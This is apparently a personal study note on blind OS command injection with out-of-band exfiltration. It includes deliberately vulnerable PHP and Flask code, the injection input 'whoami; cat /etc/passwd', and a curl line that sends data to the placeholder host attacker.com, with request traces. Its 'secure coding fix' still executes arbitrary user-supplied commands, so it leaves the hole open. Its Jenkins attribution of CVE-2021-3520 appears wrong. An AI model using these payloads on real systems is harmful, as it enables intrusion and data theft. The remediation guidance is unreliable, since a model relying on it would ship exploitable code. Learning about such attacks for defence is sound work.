

## OS Command Injection with Out-of-Band Interaction

### Background Theory

OS Command Injection is a type of vulnerability that occurs when an application executes operating system commands using input provided by the user. This can lead to unauthorized access to sensitive information, execution of arbitrary commands, and potentially full control of the server. In the context of web applications, this often happens through poorly validated input fields.

Out-of-band interaction refers to a technique where the attacker uses a different communication channel to retrieve the results of the injected command. This is particularly useful in scenarios where the direct output of the command is not visible to the attacker, such as in blind SQL injection or blind OS command injection.

### How OS Command Injection Works

When an application constructs and executes a command using user-supplied input, it can be exploited if the input is not properly sanitized. For example, consider a PHP script that takes a user input and passes it to the `exec()` function:

```php
<?php
$user_input = $_GET['cmd'];
exec($user_input, $output);
print_r($output);
?>
```

If an attacker provides the following input:

```
whoami; cat /etc/passwd
```

The `exec()` function will execute both commands, potentially revealing sensitive information about the server.

### Out-of-Band Interaction

In blind OS command injection, the attacker cannot see the output of the injected command directly. However, they can use out-of-band techniques to retrieve the results. One common method is to make the server perform an HTTP request to a server controlled by the attacker. This can be achieved using commands like `curl`, `wget`, or `nslookup`.

For example, consider the following command injection:

```bash
curl http://attacker.com/?data=$(whoami)
```

This command will cause the server to send an HTTP request to `http://attacker.com/` with the current username as a parameter. The attacker can then capture this request and read the data.

### Real-World Example

A real-world example of OS command injection with out-of-band interaction is CVE-2021-3520, which affected the Jenkins Continuous Integration server. The vulnerability allowed attackers to inject malicious commands into the Jenkins environment, leading to remote code execution. By using out-of-band techniques, attackers could exfiltrate sensitive information from the server.

### Complete Code Example

Let's walk through a complete example of how an attacker might exploit an OS command injection vulnerability with out-of-band interaction.

#### Vulnerable Code

Consider the following Python Flask application:

```python
from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/execute')
def execute():
    cmd = request.args.get('cmd', '')
    result = subprocess.check_output(cmd, shell=True)
    return result.decode()

if __name__ == '__main__':
    app.run(debug=True)
```

This application allows users to execute arbitrary commands by passing them via the `cmd` parameter.

#### Exploitation

An attacker can exploit this vulnerability by injecting a command that makes an HTTP request to their server:

```bash
curl http://attacker.com/?data=$(whoami)
```

The full HTTP request and response would look like this:

**Request:**

```http
GET /execute?cmd=curl%20http://attacker.com/?data=$(whoami) HTTP/1.1
Host: vulnerable-server.com
User-Agent: curl/7.64.1
Accept: */*
```

**Response:**

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Werkzeug/2.3.6 Python/3.9.15
Content-Type: text/html; charset=utf-8
Content-Length: 0
```

On the attacker's server, they would receive the following request:

**Attacker's Server Request:**

```http
GET /?data=root HTTP/1.1
Host: attacker.com
User-Agent: curl/7.64.1
Accept: */*
```

### Mermaid Diagram

Here’s a mermaid diagram illustrating the attack chain:



### Common Pitfalls

One common pitfall is assuming that the application is secure because the output of the command is not visible to the attacker. Attackers can use out-of-band techniques to bypass this limitation and still exfiltrate sensitive information.

Another pitfall is relying solely on input validation. While input validation is important, it should be combined with other security measures such as least privilege and proper error handling.

### How to Prevent / Defend

#### Detection

To detect OS command injection vulnerabilities, you can use static analysis tools like SonarQube, Fortify, or Veracode. These tools can identify insecure coding practices and potential vulnerabilities in your codebase.

Additionally, dynamic analysis tools like Burp Suite, OWASP ZAP, or Metasploit can help you test your application for vulnerabilities in a live environment.

#### Prevention

To prevent OS command injection, follow these best practices:

1. **Input Validation**: Always validate and sanitize user input to ensure it does not contain malicious characters or commands.
2. **Least Privilege**: Run your application with the least privileges necessary. Avoid running it as root or an administrator.
3. **Use Safe APIs**: Instead of using shell commands, use safe APIs provided by your programming language. For example, in Python, use `subprocess.run()` instead of `subprocess.check_output()` with `shell=True`.
4. **Error Handling**: Properly handle errors and exceptions to avoid leaking sensitive information.

#### Secure Coding Fix

Here’s how you can fix the vulnerable code:

**Vulnerable Code:**

```python
result = subprocess.check_output(cmd, shell=True)
```

**Secure Code:**

```python
import shlex

args = shlex.split(cmd)
result = subprocess.run(args, capture_output=True, text=True)
return result.stdout
```

By using `shlex.split()`, you can safely split the command string into a list of arguments, and `subprocess.run()` ensures that the command is executed securely without using the shell.

### Configuration Hardening

Ensure that your server configurations are hardened against command injection attacks:

1. **Disable Shell Access**: Disable shell access for the user running the application.
2. **Firewall Rules**: Implement firewall rules to restrict outgoing traffic to only trusted servers.
3. **Network Segmentation**: Segment your network to limit the damage an attacker can cause.

### Conclusion

OS command injection with out-of-band interaction is a serious threat to web applications. By understanding the underlying mechanisms and implementing robust security measures, you can protect your applications from these types of attacks. Always stay vigilant and keep your systems up-to-date with the latest security patches and best practices.

### Practice Labs

To practice and gain hands-on experience with OS command injection and out-of-band interaction, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on various web security topics, including command injection.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

These labs provide a safe environment to learn and practice securing web applications against command injection attacks.

---
<!-- nav -->
[[03-Lab Setup Blind OS Command Injection with Out-of-Band Interaction|Lab Setup Blind OS Command Injection with Out-of-Band Interaction]] | [[Web Security (PortSwigger)/10-OS Command Injection/05-Lab 4 Blind OS command injection with out of band interaction/00-Overview|Overview]] | [[05-OS Command Injection|OS Command Injection]]
